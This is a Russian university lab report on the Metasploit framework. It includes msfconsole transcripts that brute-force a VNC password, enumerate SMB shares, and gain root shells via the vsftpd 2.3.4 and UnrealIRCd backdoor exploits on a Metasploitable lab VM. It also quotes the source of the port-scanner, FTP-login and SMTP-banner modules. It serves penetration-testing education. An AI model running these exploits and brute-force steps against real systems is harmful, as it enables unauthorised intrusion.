\documentclass{article}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage[left=2cm,right=2cm,top=2cm,bottom=2cm,bindingoffset=0cm
]{geometry}
\usepackage{cmap}
\usepackage{fancyvrb}
\usepackage{graphicx}
\graphicspath{{pictures/}}
\DeclareGraphicsExtensions{.pdf,.png,.jpg}
\DefineShortVerb{\|}

\begin{document}

\begin{titlepage} \begin{center}

	\Large			
Санкт-Петербургский политехнический университет Петра Великого
			
	\vspace{0.2cm}	
Институт информационных технологий и управления
		
	\vspace{2cm} \vfill \huge
Инструмент тестов на проникновение Metasploit
		
	\vfill 
	\begin{flushleft} \large \hangindent=8cm \hangafter=0
Выполнил: Сухинин А.А. гр. 53501/3 \hrulefill
			
Принял: Выглежанина К.Д. \hrulefill
	\end{flushleft}
		
	\vspace{2cm} \vfill \LARGE
2015 г.
		
\end{center} \end{titlepage}

\section{Цель работы}
~

Изучить основные возможности инструмента тестов на проникновение Metasploit.

\section{Ход работы}

\subsection{Изучение}

\paragraph{Используя документацию изучить базовые понятия - auxiliary, payload, exploit, encoder}
~

\begin{enumerate}
\item auxiliary - являются вспомогательными модулями, которые не могут предоставить доступ к консоли, однако играют важную роль в сопровждении тестов на проникновение.

\item payload - полезная нагрузка, выполняющая определенную роль в фреймворке.

\item exploit - фрагмент программного кода, использующего уязвимость программного обеспечения.

\item encoder - модули, предназначенные для обобщения payload
\end{enumerate}

\paragraph{Запустить msfconsole, узнать список допустимых команд (help)}
~

\paragraph{Команды по работе с эксплойтом}
~

\begin{enumerate}
\item use — Выбор эксплоита
search — Поиск. Команда поиска более расширена; если вы забыли точное название или путь расположения эксплоита, она способна отобразить всю имеющуюся информацию
\item show options — Просмотр параметров для настройки. После выбора эксплоита, вы можете посмотреть какие опции доступны для настройки
\item show payload — Просмотр полезных нагрузок. Msf содержит множество полезных нагрузок; воспользовавшись этой командой можно также посмотреть рекомендуемые нагрузки для конкретного эскплоита или ОС
\item info — Просмотр подробной информации о полезной нагрузке
\item set — Установка параметров. Команда set устанавливает нужные параметры, например, RHOST(remote) и LHOST(local), или полезную нагрузку 
\item check — Проверка хоста на уязвимость
\item exploit — Запуск эксплоита
\end{enumerate}

\paragraph{Запустить msfconsole, узнать список допустимых команд (help)}
~

\begin{verbatim}
    Command       Description
    -------       -----------
    ?             Help menu
    back          Move back from the current context
    banner        Display an awesome metasploit banner
    cd            Change the current working directory
    color         Toggle color
    connect       Communicate with a host
    edit          Edit the current module with $VISUAL or $EDITOR
    exit          Exit the console
    go_pro        Launch Metasploit web GUI
    grep          Grep the output of another command
    help          Help menu
    info          Displays information about one or more module
    irb           Drop into irb scripting mode
    jobs          Displays and manages jobs
    kill          Kill a job
    load          Load a framework plugin
    loadpath      Searches for and loads modules from a path
    makerc        Save commands entered since start to a file
    popm          Pops the latest module off the stack and makes it active
    previous      Sets the previously loaded module as the current module
    pushm         Pushes the active or list of modules onto the module stack
    quit          Exit the console
    reload_all    Reloads all modules from all defined module paths
    resource      Run the commands stored in a file
    route         Route traffic through a session
    save          Saves the active datastores
    search        Searches module names and descriptions
    sessions      Dump session listings and display information about sessions
    set           Sets a variable to a value
    setg          Sets a global variable to a value
    show          Displays modules of a given type, or all modules
    sleep         Do nothing for the specified number of seconds
    spool         Write console output into a file as well the screen
    threads       View and manipulate background threads
    unload        Unload a framework plugin
    unset         Unsets one or more variables
    unsetg        Unsets one or more global variables
    use           Selects a module by name
    version       Show the framework and console library version numbers
\end{verbatim}

\paragraph{Команды по работе с БД}
~

\begin{verbatim}
    Command           Description
    -------           -----------
    creds             List all credentials in the database
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces

\end{verbatim}

\paragraph{GUI оболочка Armitage}
~

Графическая обочка Armitage является фронтэндом фреймворка и позволяет лучше понять процесс атаки и в полной мере реализовать силу metasploit.

\paragraph{GUI веб-клиент}
~

Для доступа к веб клиенту необходимо проверить статус веб-сервера metasploit и запустить apache. Клиент будет доступен на порту 3790.

\subsection{Практическое задание}

\paragraph{Подключиться к VNC-серверу, получить доступ к консоли}
~

\begin{enumerate}
\item При помощи команды search находим подходящий модуль
\item Устанавливаем модуль в качестве используемого
\item Устанавливаем параметры модуля (количество ядер и адрес удаленного хоста)
\item запускаем модуль
\item получаем удаленный доступ, используя vnc клиент и полученный пароль.
\end{enumerate}

\begin{verbatim}
msf > search vnc

Matching Modules
================

   Name                                               Disclosure Date  Rank     Description
   ----                                               ---------------  ----     -----------
   auxiliary/admin/vnc/realvnc_41_bypass              2006-05-15       
   normal   RealVNC NULL Authentication Mode Bypass
   auxiliary/scanner/vnc/vnc_login                                     
   normal   VNC Authentication Scanner
   auxiliary/scanner/vnc/vnc_none_auth                                 
   normal   VNC Authentication None Detection

...

msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set RHOSTS 192.168.0.104
RHOSTS => 192.168.0.104
msf auxiliary(vnc_login) > set THREADS 4
THREADS => 4
msf auxiliary(vnc_login) > run

[*] 192.168.0.104:5900 - Starting VNC login sweep
[+] 192.168.0.104:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


root@kali:~# xtightvncviewer 192.168.0.104
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
\end{verbatim}

\paragraph{Получить список директорий в общем доступе по протоколу SMB}
~

\begin{enumerate}
\item При помощи команды search находим подходящий модуль
\item Устанавливаем модуль в качестве используемого
\item Устанавливаем параметры модуля (количество ядер и адрес удаленного хоста)
\item запускаем модуль
\end{enumerate}

\begin{verbatim}
msf > use auxiliary/scanner/smb/smb_enumshares 
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.0.104
RHOSTS => 192.168.0.104
msf auxiliary(smb_enumshares) > set THREADS 4
THREADS => 4
msf auxiliary(smb_enumshares) > run

[+] 192.168.0.104:139 - print$ - (DISK) Printer Drivers
[+] 192.168.0.104:139 - tmp - (DISK) oh noes!
[+] 192.168.0.104:139 - opt - (DISK) 
[+] 192.168.0.104:139 - IPC$ - (IPC) IPC Service (metasploitable 
server (Samba 3.0.20-Debian))
[+] 192.168.0.104:139 - ADMIN$ - (IPC) IPC Service 
(metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{verbatim}

\paragraph{Получить консоль используя уязвимость в vsftpd}
~

\begin{enumerate}
\item Сканируем целевую машину с целью определить версию ftp сервера
\item Осуществляем поиск подходящего эксплойта
\item Выбираем подходящий payload, в данном случае он единственный
\item Устанавливаем параметры эксплойта (payload, rhost)
\item Запускаем эксплойт
\end{enumerate}

\begin{verbatim}
msf auxiliary(smb_enumshares) > nmap 192.168.0.104 -p 21 -sV
[*] exec: nmap 192.168.0.104 -p 21 -sV

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 07:05 EDT
Nmap scan report for 192.168.0.104
Host is up (0.00016s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 08:00:27:C0:D5:A0 (Cadmus Computer Systems)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results 
at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
msf auxiliary(smb_enumshares) > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       
   Description
   ----                                  ---------------  ----       
   -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       
   excellent  VSFTPD v2.3.4 Backdoor Command Execution


msf auxiliary(smb_enumshares) > use exploit/unix/ftp/
vsftpd_234_backdoor 
msf exploit(vsftpd_234_backdoor) > show payloads 

Compatible Payloads
===================

   Name               Disclosure Date  Rank    Description
   ----               ---------------  ----    -----------
   cmd/unix/interact                   normal  Unix Command, 
   Interact with Established Connection

msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact 
PAYLOAD => cmd/unix/interact
msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.0.104
RHOST => 192.168.0.104
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.0.105:51913 -> 
192.168.0.104:6200) at 2015-06-03 07:09:17 -0400

hostname
metasploitable
\end{verbatim}

\paragraph{Получить консоль используя уязвимость в vsftpd}
~

\begin{enumerate}
\item Сканируем целевую машину с целью определить версию irc
\item Осуществляем поиск подходящего эксплойта
\item Устанавливаем параметры эксплойта (rhost)
\item Запускаем эксплойт
\end{enumerate}

\begin{verbatim}
msf exploit(vsftpd_234_backdoor) > nmap 192.168.0.104 -sV -p 6667
[*] exec: nmap 192.168.0.104 -sV -p 6667

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 07:15 EDT
Nmap scan report for 192.168.0.104
Host is up (0.00020s latency).
PORT     STATE SERVICE VERSION
6667/tcp open  irc     Unreal ircd
MAC Address: 08:00:27:C0:D5:A0 (Cadmus Computer Systems)
Service Info: Host: irc.Metasploitable.LAN

Service detection performed. Please report any incorrect results 
at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds


msf exploit(vsftpd_234_backdoor) > search unreal

Matching Modules
================

   Name                                        Disclosure Date  
   Rank       Description
   ----                                        ---------------  
   ----       -----------
   exploit/linux/games/ut2004_secure           2004-06-18       
   good       Unreal Tournament 2004 "secure" Overflow (Linux)
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       
   excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution
   exploit/windows/games/ut2004_secure         2004-06-18       
   good       Unreal Tournament 2004 "secure" Overflow (Win32)

msf exploit(vsftpd_234_backdoor) > use exploit/unix/irc/
unreal_ircd_3281_backdoor 
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.0.104
RHOST => 192.168.0.104
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse double handler
[*] Connected to 192.168.0.104:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your 
    hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve 
    your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 9BgYY1xkmWTTKmbM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "9BgYY1xkmWTTKmbM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.0.105:4444 -> 
192.168.0.104:59388) at 2015-06-03 07:19:04 -0400

hostname
metasploitable
\end{verbatim}

\paragraph{Armitage Hail Mary}
~

Armitage Hail Mary - это модуль позволяющий сделать "умную" атаку на хост. Данный модуль сканирует целевую машину и применяет все подходящие эксплойты. Ниже представлены результаты его работы.


\includegraphics[width=\linewidth]{hailmary}
\begin{center}
Рис. 1. Результаты работы Armitage Hail Mary.
\end{center}

\paragraph{Изучить три файла с исходным кодом эксплойтов или служебных скрип-тов на ruby и описать, что в них происходит}
~

Файлы состоят из нескольких частей: заголовка, импортов, объявления используемых параметров.

Файлы находятся по адресу /usr/share/metasploit-framework/modules/...

\begin{enumerate}
\item auxiliary/scanner/portscan

Модуль предназначен для перечисления открытых TCP портов. Принимает следующие параметры: PORTS, TIMEOUT, CONCURRENCY + наследуемые.

В функции run host осуществляется попытка подключения к портам по списку. Для этого используется функция connect и pattern matching результатов.
\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary

  include Msf::Exploit::Remote::Tcp

  include Msf::Auxiliary::Report
  include Msf::Auxiliary::Scanner


  def initialize
    super(
      'Name'        => 'TCP Port Scanner',
      'Description' => 'Enumerate open TCP services',
      'Author'      => [ 'hdm', 'kris katterjohn' ],
      'License'     => MSF_LICENSE
    )

    register_options(
    [
      OptString.new('PORTS', [true, "Ports to scan (e.g. 
      22-25,80,110-900)", "1-10000"]),
      OptInt.new('TIMEOUT', [true, "The socket connect timeout in 
      milliseconds", 1000]),
      OptInt.new('CONCURRENCY', [true, "The number of concurrent 
      ports to check per host", 10]),
    ], self.class)

    deregister_options('RPORT')

  end


  def run_host(ip)

    timeout = datastore['TIMEOUT'].to_i

    ports = Rex::Socket.portspec_crack(datastore['PORTS'])

    if ports.empty?
      raise Msf::OptionValidateError.new(['PORTS'])
    end

    while(ports.length > 0)
      t = [ ]
      r = [ ]
      begin
      1.upto(datastore['CONCURRENCY']) do
        this_port = ports.shift
        break if not this_port
        t << framework.threads.spawn("Module(#{self.refname})-
        #{ip}:#{this_port}", false, this_port) do |port|
          begin
            s = connect(false,
              {
                'RPORT' => port,
                'RHOST' => ip,
                'ConnectTimeout' => (timeout / 1000.0)
              }
            )
            print_status("#{ip}:#{port} - TCP OPEN")
            r << [ip,port,"open"]
          rescue ::Rex::ConnectionRefused
            vprint_status("#{ip}:#{port} - TCP closed")
            r << [ip,port,"closed"]
          rescue ::Rex::ConnectionError, ::IOError, 
          ::Timeout::Error
          rescue ::Rex::Post::Meterpreter::RequestError
          rescue ::Interrupt
            raise $!
          rescue ::Exception => e
            print_error("#{ip}:#{port} exception #{e.class} #{e} 
            #{e.backtrace}")
          ensure
            disconnect(s) rescue nil
          end
        end
      end
      t.each {|x| x.join }

      rescue ::Timeout::Error
      ensure
        t.each {|x| x.kill rescue nil }
      end

      r.each do |res|
        report_service(:host => res[0], :port => res[1], :state 
        => res[2])
      end
    end
  end
end
\end{verbatim}

\item /auxiliary/scanner/ftp/ftplogin

Структура этого файла аналогична предыдущему. Сначала идет заголовок и импорты. Далее регистрируются входные параметры. Данный скрипт содержит несколько вспомогательных структур, таких как testftpaccess, anonymouscreds, cred collection, которые служат для осуществления попытки подключения, содержат параметры по умолчанию для анонимного подключения или являются вспомогательными элементами для сохранения результатов. Основное действие происходит в функции run host, которая собственно и перебирает пароли.
\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'metasploit/framework/credential_collection'
require 'metasploit/framework/login_scanner/ftp'

class Metasploit3 < Msf::Auxiliary

  include Msf::Exploit::Remote::Ftp
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report
  include Msf::Auxiliary::AuthBrute

  def proto
    'ftp'
  end

  def initialize
    super(
      'Name'        => 'FTP Authentication Scanner',
      'Description' => %q{
        This module will test FTP logins on a range of machines 
        and
        report successful logins.  If you have loaded a database 
        plugin
        and connected to a database this module will record 
        successful
        logins and hosts so you can track your access.
      },
      'Author'      => 'todb',
      'References'     =>
        [
          [ 'CVE', '1999-0502'] # Weak password
        ],
      'License'     => MSF_LICENSE
    )

    register_options(
      [
        Opt::Proxies,
        Opt::RPORT(21),
        OptBool.new('RECORD_GUEST', [ false, "Record anonymous/
        guest logins to the database", false])
      ], self.class)

    register_advanced_options(
      [
        OptBool.new('SINGLE_SESSION', [ false, 'Disconnect after 
        every login attempt', false])
      ]
    )

    deregister_options('FTPUSER','FTPPASS') # Can use these, but 
    should use 'username' and 'password'
    @accepts_all_logins = {}
  end

  def run_host(ip)
    print_status("#{ip}:#{rport} - Starting FTP login sweep")

    cred_collection = 
    Metasploit::Framework::CredentialCollection.new(
        blank_passwords: datastore['BLANK_PASSWORDS'],
        pass_file: datastore['PASS_FILE'],
        password: datastore['PASSWORD'],
        user_file: datastore['USER_FILE'],
        userpass_file: datastore['USERPASS_FILE'],
        username: datastore['USERNAME'],
        user_as_pass: datastore['USER_AS_PASS'],
        prepended_creds: anonymous_creds
    )
    cred_collection = prepend_db_passwords(cred_collection)

    scanner = Metasploit::Framework::LoginScanner::FTP.new(
        host: ip,
        port: rport,
        proxies: datastore['PROXIES'],
        cred_details: cred_collection,
        stop_on_success: datastore['STOP_ON_SUCCESS'],
        bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
        max_send_size: datastore['TCP::max_send_size'],
        send_delay: datastore['TCP::send_delay'],
        connection_timeout: 30
    )
    scanner.scan! do |result|
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      if result.success?
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)

        print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: 
        #{result.credential}"
      else
        invalidate_login(credential_data)
        vprint_error "#{ip}:#{rport} - LOGIN FAILED: 
        #{result.credential} (#{result.status}: #{result.proof})"
      end
    end

  end


  # Always check for anonymous access by pretending to be a 
  browser.
  def anonymous_creds
    anon_creds = [ ]
    if datastore['RECORD_GUEST']
      ['IEUser@', 'User@', 'mozilla@example.com', 
      'chrome@example.com' ].each do |password|
        anon_creds << 
        Metasploit::Framework::Credential.new(public: 
        'anonymous', private: password)
      end
    end
    anon_creds
  end

  def test_ftp_access(user,scanner)
    dir = Rex::Text.rand_text_alpha(8)
    write_check = scanner.send_cmd(['MKD', dir], true)
    if write_check and write_check =~ /^2/
      scanner.send_cmd(['RMD',dir], true)
      print_status("#{rhost}:#{rport} - User '#{user}' has READ/
      WRITE access")
      return 'Read/Write'
    else
      print_status("#{rhost}:#{rport} - User '#{user}' has READ 
      access")
      return 'Read-only'
    end
  end
end
\end{verbatim}

\item /auxiliary/scanner/smtp/smtp version

Данный скрипт всего-лишь извлекает баннер smtp сервера.

\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary

  include Msf::Exploit::Remote::Smtp
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report

  def initialize
    super(
      'Name'        => 'SMTP Banner Grabber',
      'Description' => 'SMTP Banner Grabber',
      'References'  =>
        [
          ['URL', 'http://www.ietf.org/rfc/rfc2821.txt'],
        ],
      'Author'      => 'CG',
      'License'     => MSF_LICENSE
    )
    deregister_options('MAILFROM', 'MAILTO')
  end

  def run_host(ip)
    res = connect
    banner_sanitized = Rex::Text.to_hex_ascii(banner.to_s)
    print_status("#{ip}:#{rport} SMTP #{banner_sanitized}")
    report_service(:host => rhost, :port => rport, :name => 
    "smtp", :info => banner)
  end

end
\end{verbatim}

\end{enumerate}

\section{Выводы}
~

В ходе данной работы были опробованы основные возможности Metasploit. Данный фреймворк позволяет сканировать и тестировать систему на проникновение. В ходе работы было исследовано 4 уязвимости metasploitable, связанных с устаревшим ПО и слабыми паролями. Была исследована структура скриптов для metasploit. Фреймворк предоставляет широкие возможности по упрощению написания собственных эксплойтов и вспомогательных скриптов. Однако, следует заметить, что для проведения успешной атаки, необходимо изначально исследовать целевую машину. Необходимо узнать список открытых портов и версии сервисов, запущенных на них. Обычно, это делается при помощи утилиты nmap. 

Также следует заметить, что данный фреймворк интегрирован с базой данных postgre, что позволяет значительно экономить время за счет автоматического сохранения и обработки результатов. Кроме того, существующие графические оболочки, такие как, например Armitage позволяют без особых усилий в полной мере использовать функции metasploit. Таким образом, matasploit является мощным инструментом для анализа и использования уязвимостей программного обеспечения.
 
\end{document}